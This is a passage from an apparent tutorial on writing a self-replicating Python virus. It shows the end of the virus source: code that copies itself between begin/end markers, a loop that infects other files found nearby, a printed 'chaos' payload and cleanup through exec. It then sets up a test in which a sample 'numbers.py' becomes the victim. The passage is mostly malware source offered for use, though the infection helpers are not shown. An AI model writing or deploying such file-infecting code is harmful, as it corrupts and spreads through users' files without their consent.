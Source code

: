 ```python

    for line in code:
        if "# begin-virus\n" in line:
            virus_code_on = True

        if virus_code_on:
            virus_code.append(line)

        if "# end-virus\n" in line:
            virus_code_on = False
            break

    return virus_code

def summon_chaos():
    # the virus payload
    print("We are sick, fucked up and complicated\nWe are chaos, we can't be cured")

# entry point 

try:
    # retrieve the virus code from the current infected script
    virus_code = get_virus_code() 

    # look for other files to infect
    for file in find_files_to_infect():
        infect(file, virus_code)

    # call the payload
    summon_chaos()

# except:
#     pass

finally:
    # delete used names from memory
    for i in list(globals().keys()):
        if(i[0] != '_'):
            exec('del {}'.format(i))

    del i

# end-virus
```

 

Let's try it putting this virus in a directory with just another `.py` file and let see if the infection starts. Our victim will be a simple program named `[numbers.py](http://numbers.py)` that returns some random numbers, like this:

```python
 # numbers.py

import random

random.seed()

for _ in range(10):
  print (random.randint(0,100))

```
